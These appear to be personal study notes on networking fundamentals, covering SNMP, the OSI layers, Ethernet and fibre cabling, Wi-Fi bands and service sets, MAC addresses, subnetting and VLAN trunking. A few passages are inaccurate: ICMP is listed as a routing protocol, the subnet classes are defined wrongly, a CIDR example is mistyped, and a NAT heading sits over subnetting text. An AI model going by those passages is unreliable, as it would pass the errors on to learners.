Devices which are SNMP enabled are called agents. The monitored devices are known as managed devices, whilst the SNMP "server" is called the Network Management Station (NMS). The latter is responsible for gathering and organising the information it receives from the managed devices.
Objects
Each agent has objects, some of which are standardised and others which are vendor specific. For example, a router might have name, uptime, interfaces, and routing table. Each object is assigned an object identifier (OID), which is a sequence of numbers separated by periods and resembling an IP address. OIDs are used for the identification of an object and are collectively stored in a Management Information Base (MIB) file.
Management Information Base (MIB)
The MIB has follows a tree hierarchy and objects are organised in layers. Each layer is assigned a number and separated by a period in the OID, so in a sense, the OID is like a set of instructions how to get from the top of the tree to the desired object. Every agent is associated with a particular MIB.
Communicating over SNMP
Three main ways of communication exist within SNMP:
- The NMS can query the managed devices about their current status.
- The NMS can order managed devices to alter aspects of their configuration.
- Managed devices can send messages to the NMS when certain events occur, such as an interface going down.
Get Requests
When the NMS wants to know about a specific object of an agent, it sends a Get request. These include Get, GetNext, and GetBulk. The agent then gives a Get response.

Set Requests
Set requests are issued by the NMS, when it wants a certain agent to make a change to one of its objects.
Trap and Inform
These are used by agents when they want to inform the NMS of something such as the occurrence of a critical event.

Although they serve the same purpose, Trap and Inform messages are different. The latter is reliable - it waits for acknowledgement from the NMS. Should it not receive one, the Inform message would be resent.
Community strings
SNMP versions 1 and 2 avail themselves of the so-called community strings. It is important to know that agents reply to SNMP requests only if they are accompanied by the appropriate community string, which is akin to a password. Every community string is associated with a set of permissions. These can be either read-only or read-write.
The OSI Model
The OSI model is a conceptual protocol model which groups different protocols into layers, based on their function. Each layer is in turn only allowed to communicate with the layers immediately above and below it, taking data from the previous layer, processing it in some way and then forwarding it to the next layer. There are 7 layers in the OSI model and together they form the layer stack:

When data is sent from a device, this data is processed in each layer from top to bottom. Furthermore, each layer may augment the actual data transmitted by adding headers to the data.
At the site of arrival, data processing occurs in the reverse order. Each layer processes the corresponding header and acts upon it. Once it's done with its job, it forwards the remaining information up to the above layer. It's just like peeling an onion!

The Application Layer
Here reside the myriad network applications and their application-layer protocols, such as HTTP, FTP, and SMTP. These are all tailored to the network application and serve very specific purposes. It is relatively easy to also develop and implement your own application-layer protocols. Pakcets of information at this layer are referred to as messages.
The Presentation layer
The presentation layer is responsible for formatting and rendering data into an appropriate format. It handles data compression and decompression, encryption and decryption. Furthemore, it deals with the cross-OS compatibility of data. In other words, it describes how data should be presented to the application layer.
The Session Layer
The session layer sets up, maintains, synchronises, and terminates the communication between different hosts. It includes functionality for user logon, authentication, management and logoff. Common protocols are ADSP, PPTP, and PAP.
The Transport Layer
This layer provides the means through which messages are transmitted between endpoints. It provides services for addressing, message delivery, flow control and multiplexing. The two protocols which dominate this layer are TCP and UDP. Packets at this layer are known as segments.
The Network Layer
Network-layer packets are called datagrams and this layer is responsible for moving these datagrams from host to host. It is provided with a source and destination address from the transport layer and then send the datagram on its path to the destination. Here resides the famous IP protocol, together with different routing protocols such as ICMP and DDP.
The Data Link Layer
The data link (or just link) layer handles the transmition of frames between nodes as the packets are being routed to their destination. Protocols which fall in this layer are Wi-Fi, Ethernet, PPP and DOCSIS. This is where MAC and LLC reside.
The Physical Layer
This layer takes on the job of transmitting individual bits from frames through physical links such as coaxial cable or fibre-optic cables. The protocols here vary depending on the medium used.
The TCP/IP Suite
Similarly to the OSI model, the TCP/IP Suite is another conceptual networking model. Its names stems from two of the main protocols it is based on - TCP and IP - and was developed by the United States Department of Defence through a programme called DARPA. Its structure resembles that of the OSI model but has fewer layers. While this is the model used in modern networks, OSI still has a large influence on how networks are perceived and developed and most layer terminology actually refers to OSI, since there is an equivalence between OSI's layers and the layers of the TCP/IP Suite.

Introduction
The Physical layer is the lowest layer in the OSI model. It provides the electrical, mechanical, or electromagnetic means by which data is physically transferred between hosts. At the core of the Physical layer lie interfaces and mediums. Interfaces are what allow devices to send receive data, while mediums are what the data travels through between interfaces. Data at the physical layer is transmitted in bits, not bytes, hence why internet speeds are typically measured in multiples of bits per seconds or bps.
Mediums
Copper (UTP) Cables
The following standards are defined for copper cable Ethernet:
| Speed | Common Name | IEEE Standard | Informal Name | Max Length |
|---|---|---|---|---|
| 10 Mbps | Ethernet | 802.3i | 10BASE-T | 100m |
| 100 Mbps | Fast Ethernet | 802.3u | 100BASE-T | 100m |
| 1 Gbps | Gigabit Ethernet | 802.3ab | 1000BASE-T | 100m |
| 10 Gbps | 10 Gig Ethernet | 802.3an | 10GBASE-T | 100m |
In the above nomenclature, BASE refers to baseband signaling, while T indicates twisted pair.
The copper cables described by the above standards are Unshielded Twisted Pair (UTP) cables which comprise 4 pairs of 8 wires.

"Unshielded" means that the wires lack a metallic shield which increases their susceptibility to electrical interference. The "twisted pair" part is pretty self-explanatory and serves the purpose of reducing electromagnetic interference.
The RJ-45 jacks used for Ethernet have 8 pins - one pin per wire - however, not all pins are in use by all standards. 10BASE-T and 100BASE-T avail themselves only of pins 1, 2, 3, and 6. Moreover, different devices use these pins differently. Switches utilise pins 3 and 6 for transmitting (Tx) data and use pins 1 and 2 for receiving (Rx) data. This separation allows for full-duplex transmission - the device is able to both receive and send data at the same time. Most other devices, however, such as PCs, routers, and firewalls do the opposite - they use pins 3 and 6 for receiving and use pins 1 and 2 for sending data.

The above is a diagram of a straight-through cable, since there is a one-to-one correspondence between the pins. This is a simple approach, but unfortunately only works when devices of opposite types are being connected - you can't use it to connect a router to another router, a switch to another switch, or a PC to another PC. This is where crossover cables come. In these cables, different pins on one end correspond to different pins on the other.

| Device Type | Tx Pins | Rx Pins |
|---|---|---|
| Router | 1 and 2 | 3 and 6 |
| Firewall | 1 and 2 | 3 and 6 |
| PC | 1 and 2 | 3 and 6 |
| Switch | 3 and 6 | 1 and 2 |
Most modern devices, however, support a feature called Auto MDI-X. This allows them to detect which pins their neighbour is transmitting data on and automatically adjust their own use of Tx and Rx pins to allow for proper communication. This makes the use of different types of cables often obsolete.
Higher speed standards avail themselves of all the pins. Additionally, in 1000BASE-T and 10GBASE-T are bidirectional and allow for both transmission and reception which allows for greater speeds.

Fibre-Optic Cables
Fibre-Optic cables are a new generation of cables. Instead of transferring electrical signals through copper wiring, these cables conduct signals in the form of light, which makes them immune to EMI. In order to use fibre-optics, a special type of connector called SFP is required, which is short for Small Form-Factor Pluggable and looks like this:

Data is transferred through the fibre-optic cable which has two connections on each end - one for sending and one for receiving:

The fibre-optic cable is comprised of 4 main layers. The innermost layer is the fibreglass core, which is what the light travels through. This core is enveloped in a cladding layer which reflects the light beam travelling through the cable. Around the cladding is a protective buffer, which is in turn wrapped in the outer jacket.

There are two main types of fibre-optic cables in the wild. The first type is multi-mode fibre which allows for light to enter at multiple angles. It has a larger glass core and allows for a greater transmission distance than UTP and is also cheaper than single-mode fibre. Single-mode fibre, on the other hand allows for light to enter only at a single angle, called a mode, and has a much greater maximum distance than that of multi-mode (step index).

The following fibre-optic cable standards are defined:
| Informal Name | IEEE Standard | Speed | Cable Type | Maximum Length |
|---|---|---|---|---|
| 1000BASE-LX | 802.3z | 1 Gbps | Multi- or single-mode | 550 m (MM), 5 km (SM) |
| 10GBASE-SR | 802.3ae | 10 Gbps | Multi-mode | 400 m |
| 10GBASE-LR | 802.3ae | 10 Gbps | Single-mode | 10 km |
| 10GBASE-ER | 802.3ae | 10 Gbps | Single-mode | 30 km |
Wireless (WiFi)
Wireless LANs (WLANs) use electromagnetic radiation for the transfer of data. The standards WLANs are defined in IEEE 802.11. Although commonly called "WiFi", this is actually a trademark of the WiFi Alliance which certifies devices for compliance with the IEEE 802.11 standards, but is not directly connected with it.
A corollary of WiFi's using radio waves to transmit data is that all devices within range receive all frames. It is, therefore, paramount that this data is encrypted. Furthermore, due to the fact that multiple devices will be using the same frequency ranges to transmit data, it is of the utmost importance that collisions are avoided. This is typically actuated by CSMA/CA - Carrier Sense Multiple Access will Collision Avoidance. Essentially, when this technique is in use, the device will wait for the channel to be free before transmitting any data by checking it periodically. An additional feature is also supported whereby the device will send a Request-To-Send (RTS) packet and will wait for a Clear-To-Send (CTS) response.
WiFi uses 3 major frequency bands (ranges). The first is 2.4 GHz and it covers the frequencies from 2.400 GHz to 2.4835 GHz. Next is the 5 GHz band which ranges from 5.150 GHz to 5.825 GHz and is further subdivided into 4 smaller bands - from 5.150 to 5.250 GHz, from 5.250 to 5.350, from 5.470 to 5.725, and from 5.725 to 5.825. The last band is the 6 GHz band and it was introduced with WiFi 6.
While 2.4 GHz provides further reach and better obstacle penetration, it is typically used by more devices and may have higher interference than 5 or 6 GHz.
Each band is divided into channels with a different width. 2.4 GHz is comprised of 13 channels, each of width 22 MHz although this may depend on your country. These channels may overlap with each other, so it is crucial that non-overlapping ones are chosen for the access points in a certain area to avoid interference. A typical configuration is to use channels 1, 6, and 11 in a honeycomb pattern, since those channels have no overlap with each other.

There are a few standards defined in IEEE 802.11:
| Standard | Frequencies | Max Speed | Name |
|---|---|---|---|
| 802.11 | 2.4 GHz | 2 Mbps | |
| 802.11b | 2.4 GHz | 11 Mbps | |
| 802.11a | 5 GHz | 54 Mbps | |
| 802.11g | 2.4 GHz | 54 Mbps | |
| 802.11n | 2.4 GHz / 5 GHz | 600 Mbps | Wi-Fi 4 |
| 802.11ac | 5 GHz | 6.93 Gbps | Wi-Fi 5 |
| 802.11ax | 2.4 GHz / 5 GHz / 6 GHz | 4 * 802.11ac | Wi-Fi 6 |
Service Sets
The IEEE 802.11 standard also defines a different kinds of service sets. These are groups of wireless network devices and are organised into three main types:
- Independent
- Infrastructure
- Mesh
All devices in a service set share the same service set identifier (SSID). This is a human-readable name which does not have to be unique. Following is an example of the SSIDs visible to my current device.

Independent Basic Service Set (IBSS)
An IBSS is a wireless network in which a small number of wireless devices are connected directly to each other without an access point. It is also commonly referred to as an ad hoc network. It can be useful for some tasks such as small file transfers (i.e. AirDrop), but is not scalable beyond a few devices.

Basic Service Set (BSS)
A BSS is a network infrastructure in which the clients are all connected to an access point, but not to each other. All traffic must go through the AP, even if two devices that want to communicate are within range of one another. A BSS is characterised by a Basic Service Set ID (BSSID) and an SSID. The former is the MAC address of the AP and must be unique, while the latter may be shared across multiple access points.

In order to connect to a BSS, wireless devices request to be associated with it. Once a device has been associated with an access point, it is referred to as a station.
The area around an AP where its signal is usable is typically called a Basic Service Area (BSA).
Extended Service Set (ESS)
For the creation of larger WLANs, which span more than the range of a single AP, an Extended Service Set (ESS) is utilised. In it, multiple APs are connected by a wired network. Each BSS shares the same SSID, but has a unique BSSID. Furthermore, the BSSs use different channels in order to avoid interference.

Clients are able to pass between APs without the need to reconnect, which is referred to as roaming. In order to ensure as seamless an experience as possible, the BSAs should overlap ~10-15%.
Mesh Basic Service Set (MBSS)
An MBSS is employed when difficulties arise with running a direct Ethernet connection through every AP. Mesh access points utilise two radios - one for the provision of a BSS to the wireless clients and one for inter-AP communication, called a backhaul network. At least one AP must be connected to the wired network and it is referred to as Root Access Point (RAP). The rest of the APs are called Mesh Access Points (MAPs). A protocol is employed to determine the best path for traffic in the MBSS.

The Distribution System
Most wireless networks typically aren't standalone networks, but instead provide a means for wireless devices to connect to a wired network. This wired network is referred to as the Distribution System (DS). Each BSS or ESS gets mapped to a VLAN on the wired network. Moreover, an AP is capable of providing multiple wireless LANs, each with a unique SSID and BSSID, where the latter is typically achieved by incrementing the last digit of the BSSID by one. IN this case, each WLAN gets mapped to a separate VLAN in the wired network.
AP Operation Modes
Repeater Mode
An AP in repeater mode can be utilised to extend the range of a BSS. The repeater simply retransmits any signal it receives from the AP. It is recommended that the repeater support at least two radios so that it can receive from the AP on one channel and then retransmit the data on a different channel, so as to avoid cutting the overall throughput.

Workgroup Bridge
A workgroup bridge (WGP) acts as a client of another AP and can be used to connect wired devices to the wireless network.

Outdoor Bridge
An outdoor bridge is used to connect networks over large distances without a physical cable. This is achieved by APs with special directional antennas.
Introduction
There are two major standards which govern how data is transmitted at the datalink layer. The first on is a protocol called Ethernet and it describes the transfer of data in wired LANs. It is defined in the IEEE 802.3 standard.
The second one is the IEEE 802.11 WLAN standard and it describes how data is transferred in wireless networks over WiFi.
MAC Addresses
Both protocols avail themselves of the so-called MAC addresses. In order words, MAC addresses operate at the datalink layer. A MAC address is a 6-byte (48-bit) value assigned to every device when it is manufactured and typically takes the form of XX:XX:XX:XX:XX:XX in hexadecimal. It may also be referred to as a burnt-in address (BIA). This address is globally unique and no two devices in the world should have the same MAC addresses.
The first 3 bytes of every MAC addresses are the Organisationally Unique Identifier (OUI) and it is assigned to the company making the device. All devices manufactured by this company will share the same 3 bytes - the company's OUI. The second half the MAC address is unique for every device and is what identifies it.
MAC addresses are used extensively in switches and routers at the datalink layer.
Network Address Translation
Introduction
Subnetting is a way to logically divide a network into smaller subnetworks. The devices that belong to the same subnet are identified by identical most-significant bits in their local IP addresses.
A local IP address is divided into two parts - the network number (routing prefix) and the host identifier (rest field). The former is what identifies the network that the IP address belongs to and is shared by devices in the same subnet. The rest field identifies the actual host on the network.
Every IPv4 address is 32 bits in length, however, the size of the network number and the host identifier is variable and is defined for each subnet by the subnet mask. The subnet mask also takes the form of an IPv4 address which is read entirely left to right. Essentially, the bits from the subnet mask that are set to 1 indicate the bits from the IP address are the network number. The bits in the subnet mask that are set to 0 indicate the bits from the IP address which represent the host identifier.
For example, for the IP address 192.168.0.123 a subnet mask of 11111111.11111111.11111111.00000000 (255.255.255.0) would indicate that 192.168.0 is the network number and that 123 is the host identifier. Since the last 8 bits are used for the host identifier, this particular subnet can have a total of \( 2^8 - 2 = 254 \) devices - where one IP is reserved for the actual network's address (192.168.0.0) and one is reserved for the broadcast address.

Typically, subnet masks would be nice and split the network at the octets of the IP address, but this is not always the case. It is then less intuitive how to read and IP address in terms of its octets, so you would typically need to understand it in terms of bits. For example, you could be given the subnet mask of 11111111.11111111.11111111.10000000 (255.255.255.128). In this case, the network would only have \( 2^7 - 2 = 126 \) possible hosts. In general for each bit the subnet mask added, the number of possible hosts is halved, while for every bit taken away, it is doubled and the number of possible hosts is given by \( 2^n - 2 \), where \( n = 32 - \text{the number of active bits in the subnet mask} \).
Subnets are divided into classes depending on the number of bits that they have set to 1. Class A has anywhere between 9 and 16 bits set, Class B has between 17 and 24 bits set, and class C has between 25 and 32 bits set.
There is also a short-hand notation for specifying the subnet mask of a particular network - CIDR notation. You simply specify the network address followed by a / and the number of active bits in the subnet mask. So, a subnet with a network address of 192.168.0.0 and a subnet mask of 255.255.255.0 will be written as 192.168.0./24.
Following is a chart of these classes together with their CIDR notations and the possible number of hosts (you should subtract 2 from the corresponding entry).

To get the IP notation for the subnet mask, simply replace x with the value from the column which pertains to the chosen CIDR notation.
You might notice the existence of /31 and /32 subnets. The rule for subtracting 2 from the number of hosts isn't applied since these networks are too small to require a broadcast address. Typically, a /31 subnet is used in a point-to-point network (usually between two routers).
Introduction
Virtual LANs provide the means for logically separating a LAN at Layer 2 and can be thought of as the Layer 2 counterpart to the Layer 3 subnets. The reasons to do this are typically bandwidth- and security-related and have to do with broadcast frames.
Imagine the following LAN, without VLANs configured:

The Engineering and Sales departments are assigned to different subnets.
If PC1 wants to send a broadcast frame, or even just an unknown unicast frame, to the Engineering department, it has to send it to the switch with a destination MAC address of FF:FF:FF:FF:FF:FF. You would expect that the switch would now only broadcast this frame to the Engineering department, but since there are no VLANs configured and the switch isn't aware of subnets - it only works with Layer 2, - the frame is actually broadcasted to the Sales department, as well! This is suboptimal because there is unnecessary traffic sent (the frame was meant for the Engineering department) and because it may unnecessarily leak information to the Sales department which poses a security risk.
One solution is to buy separate switches for the two departments but this is not very budget-friendly. Another solution is to configure separate virtual LANs for the Engineering and Sales departments. This is done in the switch and is configured with respect to the switch's interfaces -it is not done with respect to the MAC addresses. A group of interfaces is grouped into a VLAN and any host connected to that interface becomes part of the VLAN.

In the above example, the switch's interfaces FO/0, FO/1, FO/2, FO/3 have been grouped into VLAN10, while FO/4, FO/5, FO/6, FO/7 have been configured into VLAN20. These interfaces are referred to as access ports, since they only allow traffic from a single VLAN. Now, whenever PC1 sends out a broadcast frame with FF:FF:FF:FF:FF:FF as its destination, the switch is only going to broadcast the frame to the interfaces in VLAN10.
But what happens when PC1 wants to communicate with a device that is in the Sales department? In this case, PC1 sets the destination MAC to the MAC of the router which will then replace the source MAC with its own and forward the frame to the correct destination. In other words, all traffic that crosses between VLANs must be routed by the router.
Trunk Ports
Typically, every interface can only forward traffic from a single VLAN. This, however, results in the wasting of many interfaces. Such is the case with the above router - there is an interface taken for every VLAN. In order to remedy this, the so-called trunk ports can be used.

However, since a trunk port allows for traffic from many VLANs, it is not possible to determine to which VLAN the traffic belongs solely based on the interface it is flowing through. Therefore, a way of tagging each frame must be implemented by the switch. There are two main protocols for achieving this - the now obsolescent ISL (Inter-Switch Link) protocol, which is a propriety Cisco protocol which is not even used by Cisco anymore, and the IEEE 802.1Q standard (also called "dot1q").

Due to the size of the VID field in the dot1q tag, there are a total of \( 2^{12} = 4096 \) VLANs. Two of them - the first and last one - are reserved and cannot be used. Therefore, the actual range for VLANs is from 1 to 4094. This range is further subdivided:
- Normal VLANs: 1 - 1005
- Extended VLANs: 1006 - 4094
Very rarely, the extended range may not be supported by older switches.
Note that in order to turn a router interface into a trunk port, it needs to be specifically configured in the router. This is referred to as a Router-On-A-Stick (ROAS).
Native VLAN
802.1Q is equipped with an additional feature called native VLAN. This is configured per trunk port and defaults to VLAN 1. Frames in the native VLAN are not augmented with a 802.1Q tag by the switch. When a frame is received by a switch on an untagged trunk port, it is assumed that his frame belongs to the native VLAN. It is paramount that the native VLANs for a trunk link match between switches! Otherwise, situations can arise where traffic is dropped.

Suppose that SW1 and SW2 have their trunk ports' native VLANs set to 20 and 10, respectively. Suppose that the PC3 wants to communicate with PC1. PC3 sends a frame to SW2 which forwards it without adding a tag, since the trunk port's native VLAN is 10 and the frame originates from this VLAN. Once the frame reaches SW1, it sees that the frame is untagged and, since the native VLAN for the trunk port for SW1 is configured to be 20, it assumes that the frame pertains to VLAN 20. However, the destination MAC does not belong to VLAN 20, so the switch assumes that an error occurred and drops the frame.

Similarly, if PC3 wants to communicate with PC5, it sends out a frame to SW2. This frame is forwarded to the router and then returned back to SW2 where it is tagged with VLAN 20 and sent to SW1. However, when the frame is received by SW1, the switch expects a frame for VLAN 20 to be untagged due to its configuration. However, this frame does contain a tag because the native VLAN of SW2 is different. Thus, SW1 assumes an error occurred and drops the frame.